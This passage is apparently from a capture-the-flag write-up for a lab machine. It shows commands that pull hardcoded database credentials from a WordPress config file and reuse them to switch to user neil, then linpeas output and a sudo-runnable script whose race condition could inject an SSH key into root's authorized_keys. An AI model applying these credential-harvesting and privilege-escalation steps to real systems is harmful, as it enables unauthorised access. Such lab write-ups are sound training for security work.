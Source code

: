 My shell is all messed up, lets search for the user creds (and then ssh in) ! I started by checking the DB connection and it has some creds hardcoded in the **wp-config.php**
``` 
cmd: cat wp-config.php | grep DB

define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'neil' );
define( 'DB_PASSWORD', 'Opera2112' );
```

And it worked !! <br>

```
cmd: su neil
Password: Opera2112

cmd: whoami && id

neil
uid=1001(neil) gid=1001(neil) groups=1001(neil)

cat ~/user.txt
FLAG: 8b5c6531052b3f3f7ed8e69335588f8a
```

Running linpeas found some interesting things
```
sudo 1.8.21p2

mysql (127.0.0.1:36 LISTEN)

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

After checking the mentioned things we finally get to the **/usr/local/bin/enableSSH.sh** <br> 

Note: will not include the script in the notes, but is in the note's folder <br>

Since we can use **SUDO** to run this script, we can leverage it to get root access, but how? <br>

The script has a race condition in the following lines

```
(...)
checkFile $tmpName

/bin/cat $tmpName >>/root/.ssh/authorized_keys

(...)
```

It checks the file (although the result does not generate a break if fails) and then adds the content of the file to the root's authorized keys <br>

If we have luck and change the file in this time inbetween we can inject neil's (or our local one) ssh public key and then ssh to root with his (or our) private one <br>
